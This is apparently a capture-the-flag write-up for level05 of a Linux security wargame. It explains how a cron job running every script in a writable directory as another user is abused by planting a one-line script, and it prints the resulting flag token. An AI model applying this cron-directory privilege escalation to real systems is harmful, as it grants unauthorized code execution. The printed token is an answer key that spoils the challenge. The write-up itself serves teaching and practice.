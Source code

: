# level05 solve

When you get logged or after a few minutes we receive a message

```
> You have new mail in /var/mail/level05
```

Opening the file we got a bash command

```
$ cat level05
> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

But some part was weird, so we decide to learn on the web what could be appends running that command.
After some research, we understood that was a <a href="https://cron-job.org/en/">cronjob</a> (search <a href="https://book.cakephp.org/2/fr/console-and-shells/cron-jobs.html">1</a>, <a href="https://www.thegeekstuff.com/2011/07/cron-every-5-minutes/">2</a>)

So with being informed, we decide to see what the cron script does

```
$ cat /usr/sbin/openarenaserver
```
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
         rm -f "$i"
done
```

Because it's a cron, we know that will be a loop on all scripts in the folder, running and be deleted, and that every 2 minutes.

With that knowledge, we can create a script to get the password

Ok let's try that

```
$ echo "getflag > /tmp/flag" > /opt/openarenaserver/file
```

Waiting some time later (2min max)

```
$ cat /tmp/flag
> Check flag.Here is your token : viuaaale9huek52boumoomioc
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level04">previous level</a> - <a href="../../level06">next level</a>

